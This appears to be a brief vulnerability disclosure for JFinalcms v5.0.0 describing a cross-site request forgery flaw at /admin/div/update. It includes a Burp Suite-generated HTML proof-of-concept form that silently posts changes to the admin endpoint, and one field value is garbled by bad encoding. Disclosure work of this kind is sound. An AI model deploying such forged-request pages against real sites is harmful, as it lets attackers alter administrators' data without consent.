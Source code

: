 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/div/update

![图片](https://github.com/cui2shark/cms/assets/52313275/2a1d3e65-f9cf-44b3-92ff-422c47ace9a9)


create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/9a40b37f-21cd-4dae-b144-b6f62b894d93)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/div/update" method="POST">
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="name" value="娴&#139;�&#175;&#149;1" />
      <input type="hidden" name="name" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/813b01f0-d73b-4eda-b6c2-3593afb04ae2)


